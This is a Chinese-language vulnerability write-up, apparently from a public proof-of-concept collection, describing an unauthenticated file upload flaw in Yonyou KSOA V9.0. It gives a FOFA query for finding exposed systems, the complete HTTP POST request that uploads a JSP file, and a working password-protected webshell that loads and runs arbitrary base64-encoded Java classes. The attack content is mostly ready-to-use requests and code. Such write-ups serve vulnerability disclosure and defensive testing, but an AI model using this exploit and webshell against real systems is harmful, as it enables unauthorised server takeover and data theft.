 # 用友时空 KSOA V9.0 文件上传漏洞

## 漏洞描述

用友时空 KSOA 是用友网络科技股份有限公司建立在 SOA 理念指导下研发的新一代产品，其中 com.sksoft.bill.ImageUpload 存在前台文件上传漏洞，攻击者可以在不登陆的情况下上传恶意 Webshell，控制系统权限。

## 网络测绘

```
app="用友-时空KSOA"
```

## 漏洞复现

登录界面：

![image-20230601102416204](images/image-20230601102416204.png)

漏洞 URL：

```
/servlet/com.sksoft.bill.ImageUpload?filepath=/&filename=
```

发送数据包：

```
POST /servlet/com.sksoft.bill.ImageUpload?filepath=/&filename=1.jsp HTTP/1.1
Host: your-ip
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://en.fofa.info/
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: JSESSIONID=825A011F31259CCA1649D5DF4849635E
Connection: close
Content-Length: 1

<%!
your-payload
%>
```

![image-20230601102530120](images/image-20230601102530120.png)

访问 /pictures/1.jsp 即可。

### Webshell

密码：passwd

```jsp
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```

